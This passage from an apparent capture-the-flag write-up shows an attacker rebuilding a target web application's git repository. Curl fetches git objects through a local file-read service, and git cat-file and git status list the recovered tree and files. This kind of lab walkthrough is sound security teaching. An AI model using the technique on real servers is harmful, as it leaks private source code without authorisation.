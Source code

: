 
    oxdf@hacky$ git cat-file -p 9c17e5362e5ce2f30023992daad5b74cc562750b
    tree 30617cae3686895c80152d93a0568e3d0b6a0c49
    parent a85ddf4be9e06aa275d26dfaa58ef407ad2c8526
    author james <james@haxtables.htb> 1668104210 +0000
    committer james <james@haxtables.htb> 1668104210 +0000

    Updated scripts!



This object is built with a reference to another object,
`30617cae3686895c80152d93a0568e3d0b6a0c49`. I'll need to get that on
into place using the same method:



    oxdf@hacky$ mkdir .git/objects/30
    oxdf@hacky$ curl -s http://localhost:5000/var/www/image/.git/objects/30/617cae3686895c80152d93a0568e3d0b6a0c49 > .git/objects/30/617cae3686895c80152d93a0568e3d0b6a0c49
    oxdf@hacky$ git cat-file -p 30617cae3686895c80152d93a0568e3d0b6a0c49
    040000 tree 26c6c873fe81c801d731e417bf5d92e5bfa317d2    actions
    040000 tree 9a515b22daea1a74bbcf5d348ad9339202a8edd6    assets
    040000 tree 2aa032b5df9bbaeedff30b6e13be938e48cae5f4    includes
    100644 blob 72f0e39a9438fc0f915f63e2f26b762eb170cf8b    index.php
    040000 tree e074c833c28d3b024eeea724cf892a440f89a5aa    scripts
    100644 blob ec9b154d84cab1888e2724c1083bf97eb57837c9    utils.php



This one references more trees and blobs. If I try a `git status` right
now, it complains that the top tree item is missing:



    oxdf@hacky$ git status 
    fatal: unable to read tree 26c6c873fe81c801d731e417bf5d92e5bfa317d2



I'll download the file as before, then run `git status` to see if
anything is missing, and after a handful more, I get:



    oxdf@hacky$ git status 
    On branch master
    Changes to be committed:
      (use "git restore --staged <file>..." to unstage)
            deleted:    actions/action_handler.php
            deleted:    actions/image2pdf.php
            deleted:    assets/img/forestbridge.jpg
            deleted:    includes/coming_soon.md
            deleted:    index.php
            deleted:    scripts/git-commit.sh
            deleted:    utils.php



That's saying that the repo shows those files in the last commit, but
they are not on disk now, so it's showing them as deleted.
